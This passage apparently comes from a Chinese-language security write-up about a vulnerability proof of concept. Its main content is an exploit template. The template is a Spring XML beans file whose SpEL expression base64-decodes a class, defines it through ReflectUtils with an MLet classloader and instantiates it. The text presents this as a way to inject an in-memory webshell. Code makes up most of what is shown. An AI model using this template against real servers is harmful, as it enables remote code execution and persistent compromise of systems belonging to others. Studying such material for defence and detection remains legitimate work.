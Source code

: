 [![](assets/1710899069-c232716b7c2f215af3384450fd7873a3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227111440-58b91c52-d51e-1.png)

这个 Poc 首先是成立的，然后假如想进一步利用就利用 SPEL 去注入内存马即可了。  
exp 的模板如下

```plain
<?xml version="1.0" encoding="UTF-8" ?>
 <beans xmlns="http://www.springframework.org/schema/beans"
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" 
xmlns:spring="http://camel.apache.org/schema/spring"
 xmlns:context="http://www.springframework.org/schema/context"
 xsi:schemaLocation="http://www.springframework.org/schema/beans 
http://www.springframework.org/schema/beans/spring-beans.xsd 
http://camel.apache.org/schema/spring 
http://camel.apache.org/schema/spring/camel-spring.xsd 
http://www.springframework.org/schema/context 
http://www.springframework.org/schema/context/spring-context.xsd">
 <context:property-placeholder ignore-resource-not-found="false" ignore
unresolvable="false"/>
 <bean id="ClassBase64Str" class="java.lang.String">
 <constructor-arg 
value="<base64>">
 </constructor-arg>
 </bean>
<bean  class="#
 {T(org.springframework.cglib.core.ReflectUtils).defineClass('<classname>',T(org.springframework.util.Base64Utils).decodeFromString(ClassBase64Str.to
 String()),new javax.management.loading.MLet(new 
java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())
 ).newInstance().test1()}">
 </bean>
 </beans>
```
